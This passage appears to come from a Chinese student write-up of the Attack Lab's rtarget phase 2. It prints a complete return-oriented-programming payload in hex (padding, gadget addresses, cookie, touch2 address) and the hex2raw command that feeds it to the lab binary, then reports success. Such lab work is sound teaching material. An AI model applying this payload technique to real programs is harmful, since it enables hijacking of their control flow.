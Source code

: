 在输入字符串中的顺序为c5 19 40 00 00 00 00 00



同时将touch2()的入口地址设置到输入字符串的最后，修改rtarget_l2为

```
bf fa 97 b9 59 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 c5 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00

```
运行

```
./hex2raw < rtarget_l2.txt | ./rtarget -q
```

发现结果正确